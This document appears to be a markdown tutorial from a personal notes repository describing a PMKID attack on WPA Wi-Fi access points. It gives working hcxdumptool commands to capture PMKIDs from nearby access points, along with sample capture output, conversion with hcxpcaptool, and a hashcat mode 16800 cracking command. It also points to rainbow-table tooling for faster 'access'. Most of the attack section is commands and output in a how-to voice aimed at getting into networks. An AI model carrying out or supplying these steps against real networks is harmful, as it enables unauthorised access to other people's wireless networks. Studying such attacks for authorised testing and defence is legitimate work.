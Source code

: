 ```yaml
---
title: PMKID Attack
---
```


## What is this about?
Saying hello to the AP, getting a specific optional field from that and cracking it...

### Step 0
Read [this](https://en.wikipedia.org/wiki/IEEE_802.11i-2004) like your life depended on it.

### Get the tools
[https://github.com/ZerBea/hcxdumptool](https://github.com/ZerBea/hcxdumptool)

[https://github.com/ZerBea/hcxtools](https://github.com/ZerBea/hcxtools)

Run a *make* and you're all setup!

### Dump the goods

First things first, switch your interface to monitor mode and then lets request the PMKID from surrounding APs and dump that in /tmp/dump.pcap. You can also RTFM for a lot more customization options!
```
./hcxdumptool -o /tmp/dump.pcap -i potato-interface --enable_status=1
```
This will start the process and you'll get something like the following info
```
start capturing (stop with ctrl+c)
NMEA 0183 SENTENCE........: N/A
INTERFACE NAME............: potato-interface
INTERFACE HARDWARE MAC....: deadbeef1337
DRIVER....................: rtl88XXau
DRIVER VERSION............: 5.6.0
DRIVER FIRMWARE VERSION...: 
ERRORMAX..................: 100 errors
BPF code blocks...........: 0
FILTERLIST ACCESS POINT...: 0 entries
FILTERLIST CLIENT.........: 0 entries
FILTERMODE................: unused
WEAK CANDIDATE............: 12345678
ESSID list................: 0 entries
ROGUE (ACCESS POINT)......: 00504785ad5d (BROADCAST HIDDEN)
ROGUE (ACCESS POINT)......: 00504700ad5e (BROADCAST OPEN)
ROGUE (ACCESS POINT)......: 00504785ad5f (incremented on every new client)
ROGUE (CLIENT)............: b0febd79cfaf
EAPOLTIMEOUT..............: 20000 usec
REPLAYCOUNT...............: 65361
ANONCE....................: 90577414bf6b5f7e8c156decd7f54163eb52d8030b4c01ce21e770b3f7fecd0a
SNONCE....................: c8011ea225341264d5d98ba52337a3513a60e518eeea4a0ee30e55c72939e139
```
If an AP around you is vulnerable then the following message will appear, this might take some time so be patient.
```
12:38:04   2 3c8d203ac2e6 001122334455 target [EAPOL:M2M3 EAPOLTIME:3 RC:3 KDV:2]
12:38:04   2 3c8d203ac2e6 001122334455 target [EAPOL:M3M4ZEROED EAPOLTIME:3014 RC:3 KDV:2]
12:39:45   2 3c71bfc2b1c8 001122334455 target [PMKID:<THE SHA1 HASH YOU'RE LOOKING FOR> KDV:2]
```
Which means that the AP with the BSSID "00:11:22:33:44:55" and ESSID "target" has sent its pmkid to you!

### Convert and crack
Check the hcxpcaptool options out, this is for hashcat 16800 mode
```
./hcxpcaptool -k /tmp/dump.hash /tmp/dump.pcap
```
Run your hashcat and wait for it ;)
```
hashcat -m 16800 -w 4 -a 3 /tmp/dump.hash mypwnerdictionnary -r mypwnerrules.rule
```
Oh you ain't got all day and need access now? Well go back to the wiki link, re-read it and guess how the PMKID is built? Yep, you might want to check out [hcxkeys](https://github.com/ZerBea/hcxkeys) and get the SSID for the rainbowtables ;)